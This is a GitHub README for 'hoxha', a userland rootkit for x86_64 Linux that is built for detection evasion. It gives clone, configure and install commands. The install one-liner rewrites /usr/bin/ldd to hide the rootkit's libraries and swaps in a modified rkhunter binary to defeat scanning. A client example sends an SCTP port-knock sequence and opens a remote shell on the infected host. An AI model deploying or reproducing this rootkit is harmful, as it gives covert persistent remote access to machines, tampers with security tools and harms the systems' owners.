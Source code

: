 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" width="50%" height="50%" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
You can run this to ensure all dependencies are found:
```
cd hoxha; chmod +x ./configure; ./configure
Upx was found...
SCTP was found...
Sstrip was found...
Configuration successful!
```
Initially this was built on Debian which has a python binary of 'python3'. If your distro uses 'python' or another name you can use something like this to complete the configuration:
```
sed -i 's/python3/python/g' persistance/libexec.c
```
Then you can build and install it like this:
```
make install clean && cd persistance && [ -f ./patchelf ] && chmod +x ./patchelf && make install clean && sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && cp ./rkhunter $(which rkhunter) 2>/dev/null
```
You can use the client with the destionation ip address where this rootkit is installed:
```
# ./client 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest running this to exit the shell:
```
killall -9 hoxha && service cron restart
```
This will ensure that only one port is left listening for future connections. 

Further documentation will be made in the future.

